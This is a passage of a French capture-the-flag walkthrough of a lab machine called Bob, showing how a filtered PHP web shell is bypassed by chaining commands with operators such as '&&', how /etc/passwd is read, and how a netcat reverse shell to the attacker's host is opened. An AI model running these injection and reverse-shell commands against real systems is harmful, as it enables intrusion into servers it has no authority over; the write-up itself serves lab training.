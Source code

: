 ```lat_memo.html``` contient un autre message de Bob, toujours sur la sécurité du site Web : _```Hey guys IT here don't forget to check your emails regarding the recent security breach. There is a web shell running on the server with no protection but it should be safe as I have ported over the filter from the old windows server to our new linux one. Your email will have the link to the shell.```_

Command : whoami; pwd;
Output : Nice try skid, but you will never get through this bulletproof php code

Command : id && ls
www-data
WIP.jpg about.html contact.html dev_shell.php dev_shell.php.bak dev_shell_back.png index.html
index.html.bak lat_memo.html login.html news.html passwords.html robots.txt school_badge.png

Command : whoami && cat /etc/passwd
www-data
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
--snip--
c0rruptedb1t:x:1000:1000:c0rruptedb1t,,,:/home/c0rruptedb1t:/bin/bash
bob:x:1001:1001:Bob,,,,Not the smartest person:/home/bob:/bin/bash
jc:x:1002:1002:James C,,,:/home/jc:/bin/bash
seb:x:1003:1003:Sebastian W,,,:/home/seb:/bin/bash
elliot:x:1004:1004:Elliot A,,,:/home/elliot:/bin/bash
sshd:x:116:65534::/run/sshd:/usr/sbin/nologin
proftpd:x:117:65534::/run/proftpd:/bin/false
ftp:x:118:65534::/srv/ftp:/bin/false
```

Le but du jeu consiste à exécuter des commandes auxquelles nous n'avons normalement pas droit. Généralement, l'exploitation de cette vulnérabilité est réalisée à l'aide d'opérateurs logiques ([_control operators_](https://www.w3resource.com/linux-system-administration/control-operators.php) en anglais) : en effet, il est possible d'enchaîner plusieurs commandes à la suite, et la vérification semble n'être réalisée que sur le premier mot / que sur la première commande fournie. Ainsi, si le point-virgule est interdit, d'autres opérateurs logiques peuvent être utilisés afin de contourner les restrictions de ce _Web-Shell_. En outre, le fichier ```/etc/passwd``` nous informe que chaque membre du département informatique possède un compte Unix : root, c0rruptedb1t, bob, jc, seb, elliot.

À présent, il s'agit d'obtenir un véritable accès au serveur !

## Mise en place d'un reverse shell et accès au serveur Bob

Le [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) avec [__netcat__](https://nc110.sourceforge.io/) a particulièrement bien fonctionné la première fois.

```nc -lvp 12345``` sur notre machine, ```ls|nc -e /bin/bash 192.168.56.101 12345``` dans le _webshell_.

```console
root@blinils:~# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.103: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.103] 45822

id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
```
